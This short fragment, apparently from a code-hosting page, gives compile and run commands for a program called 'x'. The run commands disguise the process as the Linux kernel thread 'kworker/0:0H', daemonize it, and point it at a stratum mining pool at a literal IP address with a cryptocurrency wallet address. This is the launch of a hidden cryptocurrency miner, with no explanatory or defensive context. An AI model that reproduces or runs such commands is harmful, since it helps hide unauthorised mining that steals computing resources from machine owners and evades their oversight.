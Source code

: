#compile

gcc -o x x.c

#execute

./x -c -s "kworker/0:0H" -d -p test.pid node run.js


./x -c -s "kworker/0:0H" -d -p test.pid -o stratum+tcp://141.94.223.113:4052 -u 49cg2BTsCdmBfUPsCrDsGmREn2diVYSKUahupm2bay5ZU3gmVTzuwgY7yhQcbYCdEeZXSHsYLZKLWXTR4DNR3xcJS29HszU -k -p x
